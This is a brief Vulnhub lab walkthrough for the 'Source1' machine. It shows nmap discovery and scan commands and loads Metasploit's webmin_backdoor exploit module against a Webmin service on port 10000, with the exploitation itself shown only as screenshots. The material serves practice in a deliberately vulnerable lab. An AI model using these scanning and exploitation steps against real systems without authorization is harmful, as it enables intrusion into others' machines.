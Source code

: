 ## Source1 Vulnhub Walkthrough
---
Hey there, Hope you are doing great.

**Let's start:**
First, we need to know the IP address of our target VM.
Commands to use:
```
$ nmap -sn -vvv 192.168.1.0/24 
or
$ sudo netdiscover
```
The VM is running on 192.168.1.79 in my machine.
\
Now, let's scan the ports of the target machine.
> nmap -sC -sV -p- -T4 192.168.1.74 -oN results.log

Nmap flags usage:
```
-sC : For default script scan.
-sV : For version scanning.
-p- : Full port scan (i.e 0-65536).
-T4 : Scan Speed.
-oN : Save the results in a file.
```

**Nmap Result:**

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Source1/Nmap-Result.PNG)

So, it seems like there's only 2 ports running on our vulnerable machine (i.e 22 and 10000).
A WebMin web server is running on port 10000 as seen in the nmap result.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Source1/Login-Form.PNG)

Commands to search for the exploit and use it.
```
$ msfconsole
$ search WebMin
$ use exploit/linux/http/webmin_backdoor
```



**Exploitation:** 

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Source1/Exploitation1.PNG)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Source1/Exploitation2.PNG)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Source1/Exploitation3.PNG)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Source1/Exploitation4.PNG)


**Things to remember:**
- Set the ssl to true while exploiting using msfconsole.
- To make things easy, add "<target_ip>    source" in /etc/hosts.